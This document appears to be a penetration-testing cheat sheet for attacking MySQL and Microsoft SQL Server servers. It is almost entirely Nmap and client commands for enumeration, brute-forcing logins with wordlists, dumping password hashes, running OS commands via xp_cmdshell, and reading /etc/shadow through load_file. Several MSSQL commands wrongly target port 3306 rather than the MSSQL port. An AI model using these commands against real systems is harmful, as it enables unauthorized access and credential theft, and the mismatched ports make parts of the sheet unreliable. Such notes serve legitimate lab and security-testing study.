 ### SQL

#### Nmap

```bash
sudo nmap -p 3306 -sV -O <TARGET_IP>

nmap -p 3306 --script=mysql-empty-password <TARGET_IP>
nmap -p 3306 --script=mysql-info <TARGET_IP>
nmap -p 3306 --script=mysql-users --script-args="mysqluser='<USER>',mysqlpass='<PW>'" <TARGET_IP>
nmap -p 3306 --script=mysql-databases --script-args="mysqluser='<USER>',mysqlpass='<PW>'" <TARGET_IP>
nmap -p 3306 --script=mysql-variables --script-args="mysqluser='<USER>',mysqlpass='<PW>'" <TARGET_IP>

nmap -p 3306 --script=mysql-audit --script-args="mysql-audit.username='<USER>',mysql-audit.password='<PW>',mysql-audit.filename=''" <TARGET_IP>

nmap -p 3306 --script=mysql-dump-hashes --script-args="username='<USER>',password='<PW>'" <TARGET_IP>

nmap -p 3306 --script=mysql-query --script-args="query='select count(*) from <DB_NAME>.<TABLE_NAME>;',username='<USER>',password='<PW>'" <TARGET_IP>

nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.10.10.13

## Microsoft SQL
nmap -sV -sC -p 1433 <TARGET_IP>

nmap -p 1433 --script ms-sql-info <TARGET_IP>
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <TARGET_IP>
nmap -p 1433 --script ms-sql-empty-password <TARGET_IP>

nmap -p 3306 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt <TARGET_IP>

nmap -p 3306 --script ms-sql-query --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-query.query="SELECT * FROM master..syslogins" <TARGET_IP> -oN output.txt

nmap -p 3306 --script ms-sql-dump-hashes --script-args mssql.username=<USER>,mssql.password=<PW> <TARGET_IP>

nmap -p 3306 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-xp-cmdshell.cmd="ipconfig" <TARGET_IP>

nmap -p 3306 --script ms-sql-xp-cmdshell --script-args mssql.username=<USER>,mssql.password=<PW>,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" <TARGET_IP>
```

```bash
# MYSQL
mysql -h <TARGET_IP> -u <USER>
mysql -h <TARGET_IP> -u root

# Mysql client
help
show databases;
use <DB_NAME>;
select count(*) from <TABLE_NAME>;
select load_file("/etc/shadow");
```
